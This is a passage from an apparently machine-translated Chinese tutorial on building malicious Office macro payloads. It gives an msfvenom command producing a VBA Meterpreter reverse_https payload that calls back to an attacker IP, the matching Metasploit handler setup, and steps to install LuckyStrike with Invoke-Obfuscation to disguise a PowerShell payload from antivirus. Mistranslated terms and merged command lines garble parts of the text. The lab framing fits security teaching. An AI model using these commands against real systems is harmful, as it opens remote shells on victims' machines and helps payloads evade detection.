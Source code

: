 但是，当我们回到攻击者机器时，我们看到我们的有效负载已经在目标机器上生成了一个抄表器外壳。我们可以使用sessions命令访问该meterpreter会话，后跟会话ID，如下图所示。

![img](https://i2.wp.com/1.bp.blogspot.com/-aTFQlFxT2wo/XlaWLUN1JqI/AAAAAAAAi0c/XJsCjFilxVM12Moze_P34WAJX0wV9LlrACLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

### **Metasploit**

让我们继续一个基本的方法。几乎所有的防病毒工具都可以检测到这种方法，因为Metasploit有效负载的签名非常普遍。仍要了解基本攻击并在实验室环境中执行，我们仍将使用Metasploit通过Marcos利用我们的目标。  

首先，我们需要制作有效负载。我们将使用MSFvenom来制作有效负载。在本演示中，我们使用了reverse_http有效负载。我们声明了攻击者计算机（即Kali Linux）的本地IP地址。我们还需要提供一个本地端口以生成会话。在为vba有效负载配置了正确的有效负载之后，我们复制vba有效负载内容，然后移至目标计算机。

| 1    | msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.106 lport=1234 -f vba |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-Bvj9pu-nQNc/XlaWL5TtVvI/AAAAAAAAi0g/eUfbBfrkfbAXr9v2GAuTx1F_P4wfytIrACLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

| 12345 | use exploit/multi/handlerset payload windows/meterpreter/reverse_httpsset lhost 192.168.1.106set lport 1234exploit |
| ----- | ------------------------------------------------------------ |
|       |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-HTJ4hr1qLrQ/XlaWMEqDDkI/AAAAAAAAi0k/g-eA0Jxu1hMYZrQzA_RRQHTa9TVxWjSxwCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

让我们继续前进到我们的武器库中的下一个工具Lucky Strike。它使用“ Invoke-Obfuscation”工具来混淆有效载荷。因此，我们从GitHub下载了LuckyStrike。

![img](https://i1.wp.com/1.bp.blogspot.com/-EhkPMbCFkH4/XlaWMgCe1yI/AAAAAAAAi0o/4BUbIzLpH1Qz4t9Iyke0W-u72cfvIQsZACLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

为了使Infoke Obfuscation工作并被LuckyStrike访问，我们需要将Invoke Obfuscation工具移至PowerShell Modules目录，如下图所示。

![img](https://i1.wp.com/1.bp.blogspot.com/-ZyPG4IRu4dY/XlaWMkap7dI/AAAAAAAAi0s/fdkPiZqZWr4pdwIdUr5YJVJPb2Q044nfgCLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

现在，LuckyStrike的初始配置已完成，我们需要进入安装阶段。默认情况下，在Windows 10中，有一个名为“执行策略”的策略，该策略限制用户在系统上运行脚本。我们需要更改该策略以运行LuckyStrike。更改执行策略后，我们移至LuckyStrike目录。在这里，我们看到我们有一个install.ps1脚本。我们运行脚本。我们被要求一堆确认；我们对所有人说“是”。运行安装脚本后，我们在系统中有了LuckyStrike。

| 1234 | cd C:\Users\raj\Desktop\luckystrike-masterSet-ExecutionPolicy Unrestrictedls.\install.ps1 |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-7x0u-I2iGnM/XlaWNGPW1zI/AAAAAAAAi0w/kxB1cZXi2VMrLfUqUEZKn3UfkMsT7imAACLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

现在，在启动LuckyStrike之前，我们需要有一个有效负载来生成会话。我们使用了单行PowerShell脚本。使用ps1扩展名保存该文件，然后我们将继续使用LuckyStrike对其进行混淆。

![img](https://i2.wp.com/1.bp.blogspot.com/-rDY47BwY0go/XlaWNZGlv_I/AAAAAAAAi00/Oq4ACQEMVaUvyK1TJwI3uYGlj69AzG5tACLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

现在我们有了有效负载，让我们运行LuckyStrike。一旦运行LuckyStrike，我们就会看到漂亮的横幅和主菜单。在此菜单中，我们有多个选项，例如有效负载，目录，文件等。我们通过输入数字2选择目录选项。这为我们提供了一个名为“目录选项”的子菜单。在这里，我们可以在有效负载和模板上进行配置。在继续进行任何操作之前，我们需要添加刚刚在LuckyStrike目录中创建的有效负载。输入数字1。

| 12   | cd .\luckystrike\.\luckystrike.ps1 |
| ---- | ---------------------------------- |
|      |                                    |
